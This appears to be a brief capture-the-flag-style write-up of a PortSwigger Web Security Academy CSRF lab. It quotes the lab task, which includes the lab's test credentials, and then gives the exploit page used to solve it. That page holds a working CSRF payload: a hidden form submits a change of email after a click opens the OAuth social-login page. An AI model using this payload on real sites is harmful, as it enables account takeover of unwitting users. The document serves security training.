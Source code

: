 *This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.
The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter*

Used the following script to solve the lab:
```html
<form method="POST" action="https://0a78005e0468a23180180d55000d00c8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a78005e0468a23180180d55000d00c8.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
